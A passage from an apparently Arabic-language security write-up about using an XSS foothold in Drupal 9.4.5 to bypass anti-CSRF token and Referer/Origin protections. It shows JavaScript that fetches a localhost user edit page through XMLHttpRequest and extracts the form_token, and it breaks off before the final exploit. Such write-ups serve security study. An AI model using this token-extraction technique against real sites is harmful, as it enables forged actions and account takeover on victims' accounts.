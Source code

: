 ```python

if __name__ == '__main__':
    main()
```

![](../../posts_pics/options.png)

<br><br>

> <html><body><b><p style="color:#A52A2A;font-size:25px">XSS to Bypaass the Anti-CSRF Token Using XMLHttpRequest (XHR)</p></b></body></html>

قبل ننتقل لمحتوى الإستغلال النهائي كان فيه مع كل آكشن

Anti-CSRF Token

فعلشان نرسل الريكويست اللي راح ينفذ لنا المطلوب لازم يكون التوكن موجود, وعلى كل حال بمجرد وصولنا لـ

XSS 

فحن بإذن الله قادرين على تخطي 

 <ul class="square">
  <li>Anti-CSRF Tokens</li>
  <li>Referer/Origin Checks</li>
 </ul>

نرجع لموضوعنا, أنا هنا إستخدمت 

```js
//Extracting the Anti-CSRF Token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function(){

    if(XHR.readyState == 4){
        var resonse = XHR.responseText;

        //Parsing the response so that we can extract the token using .getElementById
        var document = new DOMParser().parseFromString(resonse, "text/html");
        var csrfToken = document.getElementsByName("form_token")[0].value;

        //The csrfToken Value 
        alert(csrfToken);
    }
}

XHR.open('GET', 'http://localhost/drupal-9.4.5/user/2/edit', true);
XHR.send();
```
أرسلت 

GET Request

بعدها أخذنا محتوى الصفحة 

Response Text
